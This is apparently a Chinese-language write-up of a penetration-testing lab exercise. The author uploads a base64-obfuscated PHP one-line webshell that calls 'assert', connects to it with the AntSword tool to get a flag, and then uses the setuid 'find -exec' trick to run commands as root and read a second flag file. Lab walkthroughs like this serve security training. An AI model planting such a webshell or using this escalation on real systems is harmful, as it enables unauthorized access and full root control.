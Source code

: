 果然，已经看到我上传的文件了

但是刚刚写的一句话木马太鸡肋了，考虑到后面可能要用蚁剑，于是写一个它最喜欢的
```
<?php
$ant = base64_decode("YXNzZXJ0");
$ant($_POST['ant']);
?>
```
打开蚁剑

url地址http://192.168.216.128:6721/api/query_pdf.php

密码是设置好的 ant

编码器base64

请求信息，http body中

name是archive

value是/var/www/html/PIzABXDg/CISP-PTE-1413/zym.pdf

![image](https://github.com/user-attachments/assets/f3124e7f-f4b7-432b-9d52-5d7a2fc97b3b)

key7 就直接出来了

然后呢怎么做？既然都进蚁剑了，这不得再摸索摸索，玩着玩着就发现有一个模拟终端，这不又是一个好东西吗，拿来玩玩

发现是个 linux 系统，那得先提权吧

find / -perm -u=s -type f 2>/dev/null，提到 root

/usr/bin/find query_pdf.php -exec whoami \;  确定了我的确是 root

/usr/bin/find query_pdf.php -exec ls /root \;   看看有些啥文件

发现目标 key8.php

/usr/bin/find query_pdf.php -exec cat /root/key8.php \; 

![image](https://github.com/user-attachments/assets/ad969f16-22c0-43b0-bb5d-4aed49f03ef5)

拿下拿下
